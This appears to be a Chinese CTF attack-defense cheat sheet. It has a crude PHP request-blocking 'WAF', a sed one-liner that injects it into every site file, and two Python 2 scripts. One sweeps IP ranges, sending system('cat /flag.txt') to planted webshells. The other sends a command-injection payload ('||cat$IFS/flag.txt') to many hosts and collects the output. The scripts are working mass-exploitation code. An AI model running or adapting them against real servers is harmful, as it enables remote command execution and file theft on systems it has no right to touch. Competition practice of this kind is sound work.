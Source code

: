# *waf*
```php
<?php
foreach($_REQUEST as $f){
    if(preg_match('/\S/m',$f))
    {
        die('flag{you_will_get_it}');
    }
}>
```

写在/tmp下，然后执行命令

    find /var/www/html -name "*.php"|xargs sed -i "s/<?php/<?php\nrequire('\/tmp\/waf.php');/g"

直接上awf

- tip

为什么要用require而不用include呢，首先require一定会执行并且遇到错误无法执行，include遇到错误直接跳过，其次require无论位置在哪都会首先执行，include则是遇到了才会执行，并且require是无条件包含，所以一定要用require防止包含失效被打穿

# 一句话木马脚本
`注意，以下所有脚本都是基于python2的，一定要学习Python2脚本`

`为什么要学习Python2呢，因为比赛环境kali是python2的`

`(看好是post还是get,如果是get自己修改下面命令注入的脚本)`
```python
import requests
import re
url="http://172.20."         #ip地址，如果是1.1.1.1,1.1.2.1请使用这个，然后根据网段自行修改自行修改
urll=".1/shell.php"          #如果不是index.php请自行修改为一句话木马的地址
payload={"shell":"system('cat /flag.txt');"}     #shell为一句话木马密码，请自行修改
for i in range(101,109):                   #从192.168.1.1-192.168.10.1,请根据靶机ip自行修改
    print(url+str(i)+urll)
    i=str(i)        #将i转换成字符型，不然无法拼接
    cc=url+i        #拼接
    cc=cc+urll      #拼接
    try:
        a=requests.post(url=cc,data=payload,timeout=1).text
        b=re.findall(r'[a-z0-9]{15,30}',a)      #正则匹配，表示匹配小写字母与数字组合长度为15-30位，根据flag位数自行修改，例如确定flag是20位那就直接r'[a-z0-9]{20}'
    except:
        b=''
    if len(b)>0:
        for j in b:
            f=open('1.txt','a+')    #输出至1.txt,可以自行修改
            f.write(url+i+".1 "+j+'\n')     #靶机ip第四位.1,根据情况自行修改
```
# 命令注入与文件包含通用脚本(根据漏洞自行修改)
```python
import requests
import re
url="172.20.10."
urll="/index.php?abc=127.0.0.1||cat$IFS/flag.txt"   #自行修改payload，本脚本展示get型命令注入与文件包含，看好题型如果是post自行修改
for i in range(1,10):
    i=str(i)
    try:
        a=requests.get(url=url+i+urll).text
        b=re.findall(r'flag{.*}', a)
    except:
        b=''
    if(len(b)>0):
        for j in b:
            f=open('1.txt','a+')
            f.write(url+i+" "+j+'\n')
```